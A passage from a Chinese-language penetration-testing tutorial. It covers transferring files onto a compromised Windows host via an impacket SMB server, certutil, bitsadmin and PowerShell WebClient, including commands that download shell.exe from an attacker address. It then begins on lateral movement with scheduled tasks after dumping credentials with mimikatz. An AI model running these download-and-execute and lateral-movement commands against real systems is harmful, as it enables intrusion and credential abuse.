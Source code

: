 ### [通过搭建 SMB 服务器](#toc_smb)

SMB（Server Message Block，服务器消息块），又称 CIFS（Common Internet File System，网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。SMB 消息一般使用 NetBIOS 协议或 TCP 发送，分别使用端口 139 或 445，目前倾向于使用 445 端口。

在 linux 上，可以通过 [https://github.com/fortra/impacket/blob/master/impacket/smbserver.py](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py) 来搭建 smb 服务器。

```plain
mkdir /root/smbshare python smbserver.py mysmb /root/smbshare -smb2support
```

### [通过 Windows 自带工具](#toc_windows)

#### [**Certutil**](#toc_certutil)

Certutil 是 Windows 自带的命令行工具，用于管理 Windows 证书并作为证书服务器的一部分安装。Certutil 提供了从网络下载文件的功能。

```plain
certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe 
//从 192.168.1.1:8000 下载 shell.exe 到本地 c:\users\public\目录下
```

#### [**BITSAdmin**](#toc_bitsadmin)

BITSAdmin 用于创建、下载和上传作业，监视其进度。Windows7 及以后的系统自带 BitsAdmin 工具。

```plain
bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt 
// 创建一个名为 test 的 bitsadmin 任务，从 192.168.1.1:8000 下载 1.txt，保存为 c:\users\mytools\a.txt
```

#### [**powershell**](#toc_powershell)

通过创建 WebClient 对象来实现文件下载

```plain
(New-Object Net.WebClient).DownloadFile("http://192.168.1.1:8000/shell.exe", "c:\users\public\shell.exe") 
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.1:8000/shell.exe','c:\users\public\shell.exe')"
```

# [at & schtasks & sc 横向](#toc_at-schtasks-sc)

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？

使用 at&schtasks 命令，创建计划任务，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

**获取到某域主机权限->minikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接->创建计划任务 (at|schtasks)->执行文件可为后门或者相关命令**

### [利用流程](#toc__1)

\\1. 建立 IPC 链接到目标主机

\\2. 拷贝要执行的命令脚本到目标主机
